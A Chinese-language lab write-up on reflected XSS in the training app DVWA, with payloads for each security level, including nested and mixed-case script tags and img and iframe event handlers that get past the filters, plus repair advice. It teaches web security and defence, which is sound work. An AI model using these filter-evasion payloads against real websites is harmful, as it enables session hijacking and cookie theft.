 # DVWA之反射型XSS #

## 漏洞概述 ##

反射型XSS是指应用程序直接将攻击者提交的具有恶意代码的数据回传浏览器，因html注入导致页面被植入恶意代码从而被攻击者控制浏览器

## 测试工具 ##

firefox浏览器

## 测试方法 ##

### LOW级别 ###

1. 设置DVWA安全级别为LOW

2. 使用浏览器进行XSS攻击

    在浏览器中输入payload:

    + `<script>alert(/xss/)</script>`
    + `<script>alert(document.cookie)</script>`
    + `<img src="" onerror="alert(/xss/)"/>`
    + `<iframe src="" onload="alert(document.cookie)"></iframe>`

    ![](media/09.01.png)

3. 分析结果

    ![](media/09.02.png)

4. 代码分析

    ![](media/09.03.png)

    说明：

    应用程序直接将提交数据输出到html页面，未对提交数据做任何过滤检查和转义操作，可直接使用提交数据包含xss payload进行攻击

### MEDIUM级别 ###

1. 设置DVWA安全级别为Medium

2. 使用浏览器进行XSS攻击

    在浏览器中输入payload:

    + `<sc<script>ript>alert(/xss/)</script>`
    + `<sCrIpt>alert(document.cookie)</scRipT>`
    + `<img src="" onerror="alert(/xss/)"/>`
    + `<iframe src="" onload="alert(document.cookie)"></iframe>`

    ![](media/09.04.png)

3. 分析结果

    ![](media/09.05.png)

4. 代码分析

    ![](media/09.06.png)

    说明：

    应用程序直接将提交数据中的`<script>`字符串进行过滤后输出到html页面，但可以通过script大小写变换后的标签、二次变化的`<scr<script>ipt>`、iframe、img等标签进行绕过，从而成功利用漏洞

### HIGH级别 ###

1. 设置DVWA安全级别为High

2. 使用浏览器进行XSS攻击

    在浏览器中输入payload:

    + `<img src="" onerror="alert(/xss/)"/>`
    + `<iframe src="" onload="alert(document.cookie)"></iframe>`

    ![](media/09.07.png)

3. 分析结果

    ![](media/09.08.png)

4. 代码分析

    ![](media/09.09.png)

    说明：

    应用程序直接将提交数据中的`<script`字符串进行过滤后输出到html页面，但可以通过iframe、img等标签进行绕过，从而成功利用漏洞

## 修复建议 ##

1. 禁用js读取cookie(设置cookie为httponly)

2. 在页面输出数据时对<、>、&、 '、"、/等字符进行html实体转义

3. 对输入数据中<、>、&、 '、"进行严格检查
